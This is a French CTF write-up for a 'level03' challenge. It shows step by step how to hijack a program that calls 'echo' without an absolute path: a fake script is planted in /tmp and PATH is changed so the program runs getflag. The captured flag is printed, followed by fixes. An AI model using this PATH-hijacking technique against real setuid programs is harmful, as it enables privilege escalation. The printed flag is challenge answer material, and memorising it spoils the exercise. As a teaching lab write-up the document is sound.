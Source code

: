 # Rapport de Vulnérabilité : Hijacking de commande via modification de la variable d’environnement `$PATH`

## Description

Cette faille repose sur la redéfinition de la variable d’environnement `$PATH` afin de forcer l’exécution d’un faux binaire `echo`. Le programme `./level03` exécute la commande `echo` sans spécifier son chemin absolu. En plaçant un faux script `echo` dans un répertoire contrôlé (comme `/tmp`) et en modifiant `$PATH`, il est possible de détourner le comportement du programme pour exécuter une commande arbitraire, comme `getflag`.

## Comment Exploiter la Faille

### Étape 1 : Créer un faux script `echo`

```bash
echo -e '#!/bin/sh\n/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
```

> Ce script exécute simplement `getflag` à la place de `echo`.

### Étape 2 : Modifier le `$PATH`

Placer `/tmp` en tête du `PATH` pour forcer le programme à utiliser notre faux `echo` :

```bash
export PATH=/tmp:$PATH
```

### Étape 3 : Exécuter le binaire

```bash
./level03
```

Si le programme utilise `echo` sans chemin absolu, il exécutera `/tmp/echo`, déclenchant alors la commande `getflag`.

### Étape 4 : Récupération du flag

Le flag s'affiche directement après exécution :

```bash
getflag
```

**Flag obtenu :**

```
qi0maab88jeaj46qoumi7maus
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Utiliser des chemins absolus pour les commandes système** : `/bin/echo` au lieu de `echo`.
* **Restreindre les droits d'exécution** : Empêcher l'exécution de scripts placés dans des dossiers temporaires comme `/tmp`.

## Conclusion

Cette faille démontre les risques liés à l’utilisation non sécurisée des variables d’environnement dans les programmes. Une simple modification de `$PATH` permet de détourner des commandes système et d’exécuter des instructions arbitraires. Il est impératif de coder défensivement en utilisant des chemins absolus pour les appels système sensibles.

---

